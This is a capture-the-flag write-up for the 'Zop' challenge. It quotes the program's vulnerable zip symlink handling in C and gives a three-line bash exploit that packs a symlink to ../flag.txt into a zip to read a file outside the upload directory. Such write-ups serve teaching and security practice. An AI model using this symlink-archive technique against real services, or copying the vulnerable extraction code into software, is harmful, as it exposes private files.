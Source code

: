 # Zop

## Description
ZAP ZIP ZOP ZAB ZIB ZOB... I'm just trying to overwhelm you with useless code.

## Writeup
Although this challenge contains a lot of code, it was designed to teach players about the genius design of the pkzip format. Check the [documentation](https://users.cs.jmu.edu/buchhofp/forensics/formats/pkzip.html) for more details.

The program contains a zip symlink path traversal vulnerability:
```c
if ((cfh->external_attrs | 0xa0000000) == cfh->external_attrs){
    fd = open(filename, O_RDONLY);
    if (fd < 0)
        return;
    symbol_name = malloc(cfh->uncompressed_size + 1);
    read(fd, symbol_name, cfh->uncompressed_size);
    close(fd);
    remove(filename);
    symlink(symbol_name, filename);
    free(symbol_name);
}
```
This means that if a zip file with a symlink to any directory is uploaded, it will be read.

The solution can be accomplished in three lines of bash code:

```sh
ln -s ../flag.txt alt.txt
zip --symlinks pay alt.txt
cat pay.zip | base64
```